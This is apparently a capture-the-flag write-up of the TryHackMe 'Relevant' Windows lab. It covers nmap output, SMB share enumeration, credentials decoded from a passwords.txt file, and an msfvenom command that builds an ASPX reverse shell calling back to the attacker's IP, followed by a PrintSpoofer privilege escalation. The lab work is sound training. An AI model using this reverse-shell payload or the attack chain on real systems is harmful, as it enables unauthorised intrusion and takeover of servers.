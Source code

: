 ```yaml
---
title: Tryhackme - Relevant
author: Rhovelionz
date: 2022-09-25 07:21:00 +0700
categories: [Tryhackme]
tags: [Samba, SMB, IIS, Psexec, PrintSpoofer, Apppool, test]
image: /assets/img/Post/Relevant.jpeg

---
```


>   **Any actions and or activities related to the material contained within this Website is solely your responsibility. This site contains materials that can be potentially damaging or dangerous. If you do not fully understand something on this site, then GO OUT OF HERE! Refer to the laws in your province/country before accessing, using,or in any other way utilizing these materials.These materials are for educational and research purposes only.**


# **<span style='color:#ff5555'>Summary</span>**
***
- SMB share has access to write
- Validate users
- Transfer payload to the SMB share
- Found SEimpersonate token is enabled
- Exploit it with PrintSpoofer


## **<span style='color:#ff5555'>Port Scan</span>**
***

```terminal
root@rhovelionz:~/THM/Relevant# nmap -A -T4 10.10.213.110
Starting Nmap 7.80 ( https://nmap.org ) at 2022-09-25 11:01 WIB
Stats: 0:01:09 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 66.67% done; ETC: 12:41 (0:00:30 remaining)
Nmap scan report for 10.10.213.110
Host is up (0.11s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE        VERSION
135/tcp  open  msrpc          Microsoft Windows RPC
139/tcp  open  netbios-ssn    Microsoft Windows netbios-ssn
3389/tcp open  ms-wbt-server?
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2022-09-25T07:11:01+00:00
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2020-07-24T23:16:08
|_Not valid after:  2021-01-23T23:16:08
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2016|2012|2008 (91%)
OS CPE: cpe:/o:microsoft:windows_server_2016 cpe:/o:microsoft:windows_server_2012 cpe:/o:microsoft:windows_server_2008:r2
Aggressive OS guesses: Microsoft Windows Server 2016 (91%), Microsoft Windows Server 2012 (85%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (85%), Microsoft Windows Server 2012 R2 (85%), Microsoft Windows Server 2008 R2 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

```terminal
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2022-09-25T07:19:15+00:00
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2020-07-24T23:16:08
|_Not valid after:  2021-01-23T23:16:08
|_ssl-date: 2020-09-19T07:19:56+00:00; 0s from scanner time.
49663/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
```

## **<span style='color:#ff5555'>Website</span>**
***

The relevant website only shows default IIS windows server's page.

![]({{ "/images/thm/Relevant/website.png" | relative_url }})

## **<span style='color:#ff5555'>Fuzzing</span>**
***

Running `gobuster` on the website with unfortunate output.

![]({{ "/images/thm/Relevant/gobuster1.png" | relative_url }})

Since it's windows machine, we need to enumerate SMB based on nmap's result.

## **<span style='color:#ff5555'>Enumerating SMB</span>**
***

Using SMBClient to open SMB shares on the server.

![]({{ "/images/thm/Relevant/smb1.png" | relative_url }})

It shows the **nt4wrksv** share enabled, the next step is to connect with **nt4wrksv** and find out what we can get from it.

![]({{ "/images/thm/Relevant/smb2.png" | relative_url }})

Download the password.txt file stored in it.

The file consists of two base64 encoded credentials

![]({{ "/images/thm/Relevant/encoded1.png" | relative_url }})

After decoding the base64, it reveals credentials for Bob and Bill

![]({{ "/images/thm/Relevant/cred1.png" | relative_url }})

Having these credentials, we can attempt to use it to the target, using **psexec** to check which users is valid.

![]({{ "/images/thm/Relevant/bob.png" | relative_url }})

![]({{ "/images/thm/Relevant/bill.png" | relative_url }})


## **<span style='color:#ff5555'>Special Port</span>**
***

Based on nmap's scan, we also have open port on 49663 which running **Microsoft HTTPAPI httpd**

Running `gobuster` against port 49663 to check subdirectories in it.

![]({{ "/images/thm/Relevant/gobuster2.png" | relative_url }})

To validate that we are on the right path, try add passwords.txt that we found on SMB before.

![]({{ "/images/thm/Relevant/passwordstxt.png" | relative_url }})

It shows the same file that we found in SMB share, that means anything we put on SMB shares because we have write access, and knowing that IIS usually accept an aspx file, we need to craft it and we can download it on the webserver and gain access.

Craft the payload:
```terminal
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.17.62.230 LPORT=1337 -f aspx -o rhovelionz.aspx
```
Upload it to the smb share

![]({{ "/images/thm/Relevant/uploadtosmbshare.png" | relative_url }})

We need to start netcat listener and open the link on the browser, and we are in.

![]({{ "/images/thm/Relevant/netcat2.png" | relative_url }})

## **<span style='color:#ff5555'>Escalate to Administrator</span>**
***

There is an exploit to abuse SeImpersonatePrivilege token that is enabled, that means token impersonation could be used to escalate to the **administrator**.

![]({{ "/images/thm/Relevant/seimpersonate.png" | relative_url }})

We will be using `PrintSpoofer`, download it and tranfer the exploit file via SMB share.

![]({{ "/images/thm/Relevant/uploadprintspoofer.png" | relative_url }})

Executing the exploit with command with -i to interact with new process and -c cmd to run CMD after execution.

![]({{ "/images/thm/Relevant/execexploit.png" | relative_url }})

***

![]({{ "/images/mandatory/pwned.png" | relative_url }})

> [Tartarus - Tryhackme](https://tryhackme.com/room/relevant)

